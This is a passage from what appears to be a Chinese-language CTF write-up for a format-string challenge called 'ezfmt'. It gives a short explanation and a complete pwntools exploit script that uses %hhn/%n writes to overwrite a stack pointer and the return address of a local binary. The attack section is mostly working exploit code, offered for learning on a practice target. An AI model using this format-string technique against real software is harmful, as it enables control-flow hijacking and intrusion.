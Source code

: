 ```plain
pl='%'+str(0x68)+'c%18$hhn'
pl+='%'+str(0x40123d-0x68)+'c%22$n'
sl(pl)
```

[![](assets/1708654729-8a5e5eaececa734ebf28c9c0809553d2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240221012311-b8e7b016-d014-1.png)  
先去修改个栈地址，然后利用 rbp 处的链子去修改返回地址，不过这里概率是 1/16，因为栈地址倒数第二位有 16 种可能，调试的时候无法完全看到改后的位置，直接跑脚本就可以

### exp

```plain
import os
import sys
import time
from pwn import *
from ctypes import *

context.os = 'linux'
context.log_level = "debug"

#context(os = 'linux',log_level = "debug",arch = 'amd64')
s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']

x64_32 = 1

if x64_32:
    context.arch = 'amd64'
else:
    context.arch = 'i386'

p=process('./pwn')

def duan():
    gdb.attach(p)
    pause()
#duan()
ru('the shit is ezfmt, M3?\n')
pl='%'+str(0x68)+'c%18$hhn'
pl+='%'+str(0x40123d-0x68)+'c%22$n'
sl(pl)
#0x40123D
```